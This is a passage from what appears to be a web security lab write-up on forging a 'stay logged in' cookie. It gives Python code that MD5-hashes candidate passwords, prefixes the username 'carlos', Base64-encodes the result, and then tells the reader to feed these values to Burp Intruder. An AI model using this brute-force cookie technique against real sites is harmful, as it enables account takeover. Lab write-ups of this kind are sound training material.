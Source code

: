 ```
```

Function to generate MD5 hash
```
def generate_md5_hash(password):

    md5_hash = hashlib.md5(password.encode()).hexdigest()

    return md5_hash

# Function to concatenate username and hashed password, then Base64 encode

def generate_base64_encoded_string(username, md5_hash):

    raw_string = f"{username}:{md5_hash}"

    base64_encoded = base64.b64encode(raw_string.encode()).decode()

    return base64_encoded

# Username to concatenate with

username = "carlos"

# Generate and print Base64 encoded strings for all passwords

for password in password_list:

    md5_hash = generate_md5_hash(password)

    base64_encoded_string = generate_base64_encoded_string(username, md5_hash)

    print(f"{base64_encoded_string}")
```

**Step3:**

Send the request to intruder

Remove ?id=wiener from GET /my-account?id=wiener

And add stay log in value for payload

<img src="images/image50.png" alt="third" width="600">
